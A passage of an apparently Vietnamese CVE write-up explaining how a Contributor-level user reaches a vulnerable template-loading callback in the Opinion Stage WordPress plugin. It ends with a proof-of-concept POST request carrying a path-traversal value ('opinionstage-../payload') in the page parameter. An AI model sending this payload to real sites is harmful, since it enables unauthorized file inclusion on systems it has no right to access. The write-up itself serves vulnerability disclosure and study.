 ```php {filename="Modules/Admin.php v19.11.0" hl_lines=[3,4,15,26]}
            add_submenu_page( OPINIONSTAGE_GETTING_STARTED_SLUG, 'Get Started', 'Get Started', 'edit_posts', OPINIONSTAGE_GETTING_STARTED_SLUG, [ $this, 'load_template' ] );
        }
    }
}
```

`register_menu_page()` sẽ register 2 submenu với `load_template` làm callback dựa trên trạng thái đăng nhập của người dùng

Để truy cập vào **submenu** của **admin** người dùng cần phải login vào WordPress với đặc quyền tối thiểu là **Contributor** => đặc quyền yêu cầu của CVE này là **Contributor**

2 slug được khai báo cho 2 submenu:

```php
const string OPINIONSTAGE_MENU_SLUG = "opinionstage-settings"
const string OPINIONSTAGE_GETTING_STARTED_SLUG = "opinionstage-getting-started"
```

## Exploit

### Proof of Concept (PoC)

1. Login bằng tài khoản Contributor
2. Gửi POST request:

```http
POST /wp-admin/admin.php?page=opinionstage-getting-started HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: vi,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: http://localhost/wp-admin/
Connection: keep-alive
Cookie: wordpress_86a9106ae65537651a8e456835b316ab=con%7C1760451626%7CeIWnBlZSv8mq15W1MfZbUd1WqiPvrNbuhzcGwDNgRtf%7C95a2ae30f463a8c1d010a70313f3f305e2c6e99b18056b7827132b809329c400; wp-settings-time-3=1760279584; intercom-id-y45xtsgw=f5cf9200-6f02-4b61-bb0a-94ef864e710e; intercom-session-y45xtsgw=; intercom-device-id-y45xtsgw=40def9f9-8e76-4d64-9bbc-28c12b70544f; wordpress_test_cookie=WP%20Cookie%20check; wp_lang=en_US; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=con%7C1760451626%7CeIWnBlZSv8mq15W1MfZbUd1WqiPvrNbuhzcGwDNgRtf%7C2f86a0974e1c1d7b5ef8322a588e50ef5879561d1fc2f84b7c6eddf5c98ffcce
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
X-PwnFox-Color: green
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 28

page=opinionstage-../payload
```
